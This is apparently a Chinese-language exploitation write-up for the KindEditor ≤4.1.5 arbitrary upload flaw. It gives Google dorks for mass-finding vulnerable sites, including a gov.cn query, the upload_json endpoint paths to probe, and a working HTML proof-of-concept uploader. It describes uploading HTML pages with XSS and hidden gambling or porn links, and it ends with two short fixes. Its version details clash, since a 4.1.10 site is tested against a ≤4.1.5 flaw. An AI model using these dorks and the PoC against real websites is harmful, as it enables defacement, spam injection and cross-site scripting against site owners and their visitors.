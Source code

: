 # kindeditor<=4.1.5上传漏洞     	

## 0x00 漏洞描述

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.5编辑器中

这里html里面可以嵌套暗链接地址以及嵌套xss。Kindeditor上的uploadbutton.html用于文件上传功能页面，直接POST到/upload_json.*?dir=file，在允许上传的文件扩展名中包含htm,txt：extTable.Add("file","doc,docx,xls,xlsx,ppt,htm,html,txt,zip,rar,gz,bz2")

 

## 0x01 批量搜索

在google中批量搜索：

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

```
inurl:/examples/uploadbutton.html

inurl:/php/upload_json.php

inurl:/asp.net/upload_json.ashx

inurl://jsp/upload_json.jsp

inurl://asp/upload_json.asp

inurl:gov.cn/kindeditor/
```

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

 

 

## 0x02 漏洞问题

根本脚本语言自定义不同的上传地址，上传之前有必要验证文件 upload_json.* 的存在

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp

/php/upload_json.php
```

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

可目录变量查看是否存在那种脚本上传漏洞:

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

## 0x03 漏洞利用

google搜素一些存在的站点 inurl：kindeditor

1.查看版本信息

http://www.xxx.org/kindeditor//kindeditor.js

![img](kindeditor-4.1.5上传漏洞.assets/1627364676996779.jpg)

 

2.版本是4.1.10可以进行尝试如下路径是否存在有必要验证文件 upload_json.* 

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

3.如下图可以看出是存在jsp上传点:

http://www.xxx.org/kindeditor/jsp/upload_json.jsp?dir=file

![img](kindeditor-4.1.5上传漏洞.assets/162736467764424.jpg)

 

 

4.写出下面的构造上传poc,这里需要修改<script>...<script>以及url : 的内容,根据实际情况修改.

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

```
<html><head>

 

<title>Uploader</title>

 

<script src="http://www.xxx.org/kindeditor//kindeditor.js"></script>

 

<script>

 

KindEditor.ready(function(K) {

 

var uploadbutton = K.uploadbutton({

 

button : K('#uploadButton')[0],

 

fieldName : 'imgFile',

 

url : 'http://www.xxx.org/kindeditor/jsp/upload_json.jsp?dir=file',

 

afterUpload : function(data) {

 

if (data.error === 0) {

 

var url = K.formatUrl(data.url, 'absolute');

 

K('#url').val(url);}

 

},

 

});

 

uploadbutton.fileBox.change(function(e) {

 

uploadbutton.submit();

 

});

 

});

 

</script></head><body>

 

<div class="upload">

 

<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />

 

<input type="button" id="uploadButton" value="Upload" />

 

</div>

 

</body>

 

</html>
```

[![复制代码](kindeditor-4.1.5上传漏洞.assets/1627364675727233.jpg)](javascript:void(0);)

 

5.用浏览器打开,然后开启bupsuit进行拦截发送,可以看到成功上传txt文件

![img](kindeditor-4.1.5上传漏洞.assets/162736467828451.jpg)

 

![img](kindeditor-4.1.5上传漏洞.assets/1627364678534094.jpg)

 

 

![img](kindeditor-4.1.5上传漏洞.assets/1627364678808487.jpg)

 

6.同时也可以上传.html文件,这里就是攻击者最喜欢上传的文件(里面包含了各种暗页连接地址,如菠菜和其他色情站点链接地址)

 

![img](kindeditor-4.1.5上传漏洞.assets/1627364679125681.jpg)

 

 

![img](kindeditor-4.1.5上传漏洞.assets/16273646794874759.jpg)

 

## 0x04 漏洞修复

1.直接删除upload_json.*和file_manager_json.*

2.升级kindeditor到最新版本
